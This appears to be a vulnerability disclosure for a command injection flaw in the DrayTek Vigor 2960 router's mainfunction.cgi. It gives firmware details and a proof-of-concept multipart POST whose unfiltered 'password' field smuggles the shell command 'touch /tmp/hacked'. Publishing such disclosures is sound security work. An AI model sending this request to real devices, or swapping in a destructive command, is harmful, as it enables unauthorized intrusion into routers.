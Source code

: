 # Draytek vigor 2960 v1.5.1.4 has command injection vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

This vulnerability is in function sub_1225C, file mainfunction.cgi. It does not filter var password, so we can achieve command injection. 

![image-20230225141358037](images/image-20230225141358037.png)

![image-20230225141410025](images/image-20230225141410025.png)

## poc 

![image-20230225140932021](images/image-20230225140932021.png)

```
POST /cgi-bin/mainfunction.cgi/trustcaupload HTTP/1.1
Host: xxxxx
Content-Length: 423
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: xxxxx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBtX2IODkwu3BgXtR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,
image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: xxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: lang=en; SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close
------WebKitFormBoundaryBtX2IODkwu3BgXtR
Content-Disposition: form-data; name="selectfile"; filename="hack.pem"
Content-Type: application/x-compressed
hack
------WebKitFormBoundaryBtX2IODkwu3BgXtR
Content-Disposition: form-data; name="select"
11111
------WebKitFormBoundaryBtX2IODkwu3BgXtR
Content-Disposition: form-data; name="password"
1'&& touch /tmp/hacked;'
------WebKitFormBoundaryBtX2IODkwu3BgXtR--
```

